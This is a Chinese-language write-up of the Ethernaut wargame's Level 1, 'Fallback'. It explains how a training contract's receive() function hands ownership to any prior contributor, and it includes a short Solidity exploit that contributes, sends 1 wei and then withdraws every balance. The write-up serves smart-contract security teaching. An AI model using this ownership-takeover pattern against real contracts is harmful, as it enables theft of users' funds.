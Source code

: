 <div align="center">
<p align="left">(<a href="https://github.com/XuHugo/Ethernaut-Foundry-Solutions/tree/main/solutions">back</a>)</p>

<img src="../imgs/levels/1-fallback.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 1 - Fallback</strong></h1>

</div>
<br>

详细解读文章: [Ethernaut Foundry Solutions | Level 1 - Fallback](https://blog.csdn.net/xq723310/)

## 目录

- [目录](#目录)
- [目标](#目标)
- [漏洞](#漏洞)
- [解答](#解答)
- [要点](#要点)

## 目标

目标是拿到这个合约的控制权，转出所有余额
<img src="../imgs/requirements/1-fallback-requirements.webp" width="800px"/>

## 漏洞

转出余额，直接调用 `withdraw` 函数，但是效用此函数受限于 `onlyOwner`，所以根源就是如何获取 `owner` 权限；仔细阅读合约，我们发现`receive` 函数中，可以重新设置 `owner` ； `receive` 函数，当合约在接收eth，且没有任何calldata的情况下，才会调用 `receive` 函数。  

```javascript
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```

现在，我们只需弄清楚如何通过 `receive` 函数条件检测 —— `require` 即可。第一条件相当简单，我们只需要发送任意数量的ETH。第二条件要求我们首先调用 `contribute()` ，这样我们的余额就大于0。于是，我们就成为合约的新owner。  

## 解答

1. 首先调用 `contribute` 函数发送一些eth，以满足 `receive()` 函数中 `contributions[msg.sender] > 0` 的条件
2. 直接向合约发送一些eth来触发 `receive()` 函数
3. 提取所有资金

```javascript
        // send the minimum amount to become a contributor
        instance.contribute{value: 0.0001 ether}();

        // send directly to the contract 1 wei, this will allow us to become the new owner
        (bool sent, ) = address(instance).call{value: 1 wei}("");
        require(sent, "Failed to send Ether to the Fallback");
        // now that we are the owner of the contract withdraw all the funds
        instance.withdraw();
```

## 要点

- `receive` 和 `fallback` 函数的用法
- 永远不要在 `fallback/receive` 函数中实现关键逻辑

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>